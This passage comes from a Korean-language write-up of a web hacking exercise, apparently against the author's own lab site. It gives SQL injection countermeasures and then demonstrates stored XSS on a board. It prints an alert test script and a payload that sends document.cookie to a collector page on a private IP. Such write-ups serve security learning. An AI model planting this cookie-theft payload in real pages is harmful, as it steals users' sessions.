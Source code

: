 저는 시간을 단축하기 위해 위의 7~9번 사진처럼 공격 스크립트 `파이썬`을 이용하여 작성 후 공격하여 `원하는 결과값`을 얻을 수 있엇습니다.

#### 대응 방안
현재 공격이 가능한 부분은 게시판 검색이 가능한 부분 및 `SQL 공격 구문이` 가능한 부분입니다.
<br>게시판에서 검색을 할때 `입력값의 유효성 검사`를 안해서 `Bollean Based 공격`이 되고 있습니다.
<br>이를 보안하기 위해서는 DBMS 종류에 따라 `쿼리의 구조`를 `변경`시키거나, 쿼리문의 일부로 사용되는 문자를 `공백` 등으로 `치환`하는 방식으로 방어를 하면 됩니다.
(`특수문자:', =, #, -- / 공격 구문에 사용된 database, select 등등`)

<br>


 <hr>
## 4-2 <sup id="xss">[[3]](#user-ref3)</sup> `XSS` `: Cross Site Scripting`

 1. 사이트를 `교차`해서 스크립트를 발생시킴.
 2. 게시판을 포함한 웹에서 `자바스크립트`같은 스크립트 언어를 삽입해 개발자가 의도하지 않은 기능을 작동시키는것.
 3. `클라이언트측`을 대상으로 한 공격

전 여기서 `Stored XSS` (웹 사이트 `게시판`에 스크립트를 `삽입`하는 공격 방식)를 이용해보도록 하겠습니다.

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fb3uWBk%2FbtrdT1MevqC%2FAy2bksolFQoHa6cPfYcnkK%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 10. XSS 게시판 테스트 (1/4)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FmZVZt%2FbtrdVjr5UXJ%2FcQCJOVYYJICHXUZ3Pdekk0%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 11. XSS 게시판 테스트 (2/4)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbBKi3M%2FbtrdXxwDCZe%2FxzYIAUg3RR2nHzR3kclFUK%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 12. XSS 게시판 테스트 (3/4)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F6BdJD%2FbtrdPJFN1Df%2F1k97aP2ciiQ5KkhoUlqQsk%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 13. XSS 게시판 테스트 (4/4)</figcaption>
</figure>

```javascript
$ <script>alert("내용 ")</script>
```
<figcaption>Javascript를 이용한 XSS 취약점 확인 코드</figcaption>
XSS 공격이 가능한것이 확인이 되어, 전 XSS 공격으로 `쿠키값`을 `탈취`해보도록 하겠습니다.
<br>
<br>
```javascript
<script>window.open("http://192.168.35.237/xss/cookie.php?data="+document.cookie)</script>
```
<figcaption>XSS 공격 코드 (1/2)</figcaption>
